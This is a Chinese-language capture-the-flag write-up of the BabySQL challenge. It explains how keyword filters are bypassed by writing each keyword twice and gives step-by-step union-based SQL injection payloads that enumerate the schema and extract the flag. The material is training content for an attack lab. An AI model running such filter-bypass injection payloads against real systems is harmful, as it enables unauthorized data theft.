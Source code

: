 # [极客大挑战 2019]BabySQL 1

- 直接尝试万能账号密码，但是均失败，发现网页中写了 `自从前几次网站被日，我对我的网站做了严格的过滤，你们这些黑客死心吧！！！` ，所以直接进行sql注入。首先判断字段数，但是发现or和by被过滤了

> <img src="../../IMG2/Screenshot 2024-05-20 200821.png">

- 我输入的是 `1' order by 3#` ，但是只显示了 `1' der 3#` ，说明or和by被过滤了，尝试双写，发现双写成功

> <img src="../../IMG2/Screenshot 2024-05-20 201014.png">

- 下面判断回显点，发现过滤了 `union` 和 `select` ，进行双写绕过

> <img src="../../IMG2/Screenshot 2024-05-20 201713.png">

- 确定回显点为2,3，下面获取数据库，发现 `information` 和 `from` 被过滤

`1' ununionion seselectlect 1,2,group_concat(schema_name) frfromom infoorrmation_schema.schemata#`

> <img src="../../IMG2/Screenshot 2024-05-20 202308.png">

- 发现ctf数据库，查询数据表

`1' ununionion seselectlect 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whwhereere table_schema='ctf'#`

> <img src="../../IMG2/Screenshot 2024-05-20 202553.png">

- 发现flag表，读字段

`1' ununionion seselectlect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whwhereere table_schema='ctf'#`

> <img src="../../IMG2/Screenshot 2024-05-20 202824.png">

- 发现flag字段，读取值

`1' ununionion seselectlect 1,2,flag ffromrom ctf.Flag#`

> <img src="../../IMG2/Screenshot 2024-05-20 202958.png">